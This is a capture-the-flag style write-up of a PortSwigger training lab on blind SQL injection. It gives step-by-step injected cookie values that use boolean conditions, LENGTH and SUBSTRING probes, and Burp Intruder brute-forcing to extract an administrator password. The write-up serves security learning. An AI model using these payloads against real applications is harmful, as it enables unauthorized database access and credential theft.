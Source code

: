 # Blind SQL injection with conditional responses

## Description

[This lab](https://portswigger.net/web-security/sql-injection/blind/lab-conditional-responses) contains a blind SQL injection vulnerability. The application uses a tracking cookie for analytics, and performs an SQL query containing the value of the submitted cookie.

The results of the SQL query are not returned, and no error messages are displayed. But the application includes a "Welcome back" message in the page if the query returns any rows.

The database contains a different table called users, with columns called username and password. By exploiting the blind SQL injection vulnerability we can find out the password of the administrator user.

## Reproduction and proof of concept

1. Confirm `TrackingId` parameter is vulnerable: Visit the front page of the shop, and use Burp Suite to intercept and modify the request containing the `TrackingId` cookie. 

```text
Cookie: TrackingId=qKu8R40rq4Hdsfpb; session=2IsD4KyEz4hxnNcI3RdIZbsVggIw71c5
```

2. Send to Repeater. Change the TrackingId cookie to: `TrackingId=qKu8R40rq4Hdsfpb' AND '1'='1`. The "Welcome back" message appears in the response. 
3. Now change it to: `TrackingId=qKu8R40rq4Hdsfpb' AND '1'='2`. The "Welcome back" message does not appear in the response. This confirms `TrackingId` is a vulnerable parameter.
4. Confirm there is a `users` table. Now change it to: `TrackingId=qKu8R40rq4Hdsfpb' AND (SELECT 'a' FROM users LIMIT 1)='a`. There is a "Welcome Back" so the condition is true, confirming that there is a table called `users`. 
5. Now confirm that the username `administrator` exists in the `users` table. Change the `TrackingId` parameter to: 

```text
TrackingId=qKu8R40rq4Hdsfpb' AND (SELECT username FROM users WHERE username='administrator')='administrator'--'
```

"Welcome back", so the condition is true, confirming that there is a user called `administrator`. 

6. The next step is to determine how many characters are in the password of the administrator user. To do this, change the value to:

```text
TrackingId=qKu8R40rq4Hdsfpb' AND (SELECT username FROM users WHERE username='administrator' AND LENGTH(password)>1)='administrator'--'
```

7. Send a series of follow-up values to test different password lengths. Send:

```text
TrackingId=qKu8R40rq4Hdsfpb' AND (SELECT username FROM users WHERE username='administrator' AND LENGTH(password)>2)='administrator'--'
```

```text
TrackingId=qKu8R40rq4Hdsfpb' AND (SELECT username FROM users WHERE username='administrator' AND LENGTH(password)>3)='administrator'--'
```

Etcetera. You can do this manually using Burp Repeater, since the length is likely to be short. When the condition stops being true (i.e. when the "Welcome back" message disappears), you have determined the length of the password, which is 20 characters long.

Request:
![SQLi](/_static/images/sqli13.png)

Response:
![SQLi](/_static/images/sqli14.png)

8. After determining the length of the password, the next step is to test the character at each position to determine its value. This involves a much larger number of requests. Send the request you are working on to Burp Intruder, using the context menu.
9. In the Positions tab of Burp Intruder, clear the default payload positions by clicking the "Clear §" button.
10. I took a break, and the lab timed out. New `TrackingId` value of `tFVVYAOZtT7hz2qi`. In the Positions tab, change the value of the cookie to:

```text
TrackingId=tFVVYAOZtT7hz2qi' AND (SELECT SUBSTRING(password,1,1) FROM users WHERE username='administrator')='a'--
```
    
This uses the `SUBSTRING()` function to extract a single character from the password, and test it against a specific value. The attack will cycle through each position and possible value, testing each one in turn.

11. Place payload position markers around the final `a` character in the cookie value. To do this, select just the `a`, and click the "Add §" button:

```text
TrackingId=tFVVYAOZtT7hz2qi'+AND+(SELECT+SUBSTRING(password,1,1)+FROM+users WHERE+username&3d'administrator')%3d'§a§'--
```

![SQLi](/_static/images/sqli15.png)


12. To test the character at each position, send suitable payloads in the payload position defined. For this lab, assume that the password contains only lowercase alphanumeric characters. Go to the Payloads tab, check that "Bruteforcer" is selected, and under "Payload Options" the range a-z and 0-9 are by default set. 

![SQLi](/_static/images/sqli16.png)

13. To be able to tell when the correct character was submitted, grep each response for the expression "Welcome back". To do this, go to the Options tab, and the "Grep - Match" section. Clear any existing entries in the list, and then add the value "Welcome back".

![SQLi](/_static/images/sqli17.png)

14. Launch the attack by clicking the "Start attack" button or selecting "Start attack" from the Intruder menu.
15. Review the attack results to find the value of the character at the first position. You should see a column in the results called "Welcome back". One of the rows should have a tick in this column. The payload showing for that row is the value of the character at the first position.
16. Re-run the attack for each of the other character positions in the password, to determine their value. To do this, go back to the main Burp window, and the Positions tab of Burp Intruder, and change the specified offset from `1` to `2`:

```text
TrackingId=tFVVYAOZtT7hz2qi'+AND+(SELECT+SUBSTRING(password,2,1)+FROM+users WHERE+username&3d'administrator')%3d'§a§'--
```

17. Launch the modified attack, review the results, and note the character at the second offset.
18. Continue this process testing offset `3`, `4`, and so on, until `20` and you have the whole password.
19. In the browser, click "My account" to open the login page. Use the password to log in as the administrator user.

![SQLi](/_static/images/sqli18.png)
